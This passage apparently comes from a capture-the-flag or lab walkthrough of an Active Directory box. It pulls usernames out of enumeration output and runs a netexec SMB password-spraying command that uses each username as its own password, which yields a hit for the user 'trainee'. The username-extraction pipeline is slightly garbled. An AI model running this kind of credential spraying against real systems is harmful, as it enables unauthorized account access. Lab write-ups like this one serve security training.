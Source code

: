 ![](image-6.png)

\
Now we have a list of users, groups and aliasses. We need to geet a list users and we can use that command to get grep only users.
```sql
echo 'Content' | | cut -d '\' -f2 | cut -f1 -d ' '
```

After getting the usernames lists we can perform spraying usernames.\
In netexec just use users list as username and password.

```sql
netexec smb dc -u users.txt -p users.txt --continue-on-success --no-bruteforce
```
![](image-7.png)

\
We have one hit. User trainee has password trainee. So, it is time to enumerate using trainee user.
